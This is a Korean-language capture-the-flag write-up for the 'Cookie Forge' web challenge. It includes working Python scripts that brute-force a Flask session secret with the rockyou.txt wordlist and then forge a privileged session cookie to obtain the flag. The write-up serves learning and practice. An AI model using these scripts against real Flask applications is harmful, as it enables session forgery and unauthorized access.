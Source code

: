 # Cookie Forge
**Web, 100pts**
> Help a new local cookie bakery startup shake down their new online ordering and loyalty rewards portal at https://cookie-forge.cha.hackpack.club!
>
> I wonder if they will sell you a Flask of milk to go with your cookies...

--------------------------------------------------------------------------------

![Main](main.png)

메인 화면의 모습이다. Order Now 버튼을 누르면 로그인 화면으로 이동한다.

![Login](login.png)

인증 과정이 없는 건지 아무 값이나 입력해도 로그인이 가능했다. 로그인 후에 Orders 탭과 Safety 탭을 확인해봤는데 의미 있는 내용은 없어 보였다. Flagship Loyalty 탭으로 들어가보면 메인 화면으로 리다이렉트 되면서 멤버가 아니라는 메시지가 출력되었다. 다만 해당 탭의 경로가 `/flag`라서 플래그를 획득할 수 있는 페이지라고 생각했다.

문제에서 쿠키라는 단서를 주고 있기 때문에 확인해보니 `session`이라는 쿠키가 있었다. 그런데 값이 [JWT](https://jwt.io/)처럼 생겨서 헤더 부분을 디코딩해보니 알고리즘 정보 대신 `flagship`과 `username`에 대한 정보만 있었다.

```
eyJmbGFnc2hpcCI6ZmFsc2UsInVzZXJuYW1lIjoidGVzdCJ9

{"flagship":false,"username":"test"}
```

일단 디코딩된 값 중에서 `flagship`이 False인 것으로 볼 때 이것을 True로 만들어야 플래그를 획득할 수 있을 것으로 보였다. 하지만 JWT가 아니었기 때문에 이것이 어떤 종류의 세션 값인지 알아야만 했다. 혹시나 하는 마음에 True로 인코딩한 값으로 쿠키 값을 수정해봤지만 해당 세션 쿠키가 삭제되는 것을 볼 수 있었다.

3일 정도 고민하고 검색해봤지만 전혀 감이 잡히지 않아서 포기하려고 했다. 다른 CTF에 참가하고 write-up을 보며 풀지 못했던 문제들을 공부하다가 Flask 관련 문제일 것 같다는 생각이 갑자기 들었다. 사실 문제 설명에 Flask에 대한 언급이 있어서 검색을 해봤지만 원하는 정보를 얻지 못하고 있었다. 다시 문제를 풀기 위해 검색을 해보니 **Flask Session Cookie Forge**에 대한 내용을 확인할 수 있었다.

> **References**
> - https://terryvogelsang.tech/MITRECTF2018-my-flask-app/
> - https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

Flask 세션은 `{Data}.{Timestamp}.{Hash}`의 구조를 가지고 있었다. 그리고 `Hash`를 생성할 때 `secret_key`가 사용된다. 이 값을 알아내기 위해 [포스트](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)를 참고하여 [스크립트](crack.py)를 작성하고 딕셔너리 공격을 시도했다. 단어 목록은 `rockyou.txt`를 사용했다.

```python
# crack.py
# Reference: https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadSignature
from hashlib import sha1

password = open('rockyou.txt', 'r', encoding='latin_1').read().split('\n')
print('Listing Success\n')

session = '[removed]'

for secret in password:
    try:
        signer = URLSafeTimedSerializer(
            secret_key = secret,
            salt = 'cookie-session',
            serializer = session_json_serializer,
            signer_kwargs = {'key_derivation': 'hmac', 'digest_method': sha1}
        ).loads(session)
    except BadSignature:
        continue

    print('Secret Key: {}'.format(secret))
    break
```

`secret_key`가 일치하면 오류가 발생하지 않기 때문에 해당 값을 확인할 수 있다. 스크립트를 실행하자마자 `secret_key`가 `password1`이라는 결과가 출력되었다. 다른 [포스트](https://terryvogelsang.tech/MITRECTF2018-my-flask-app/)에 나와 있는 `Verify` 스크립트를 이용하여 기존의 세션을 확인해보니 `secret_key`가 일치한다는 것을 알 수 있었다. 구한 키 값을 이용하여 새로운 세션 값을 만들기 위한 [스크립트](craft.py)도 작성하였다.

```python
# craft.py
# Reference: https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

from flask.sessions import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from hashlib import sha1

data = {'flagship': True, 'username': 'test'}
secret = 'password1'

session = URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs = {'key_derivation': 'hmac', 'digest_method': sha1}
    ).dumps(data)

print('Session: {}'.format(session))
```

그렇게 생성된 세션 값을 문제 페이지의 쿠키로 저장한 다음, Flagship Loyalty 탭으로 들어가보니 아래 사진과 같이 플래그를 획득할 수 있었다.

![Flag](flag.png)

```
Flag: flag{0h_my_@ch1ng_p@ncre@5_th33$3_@r3_d3l1c10$0}
```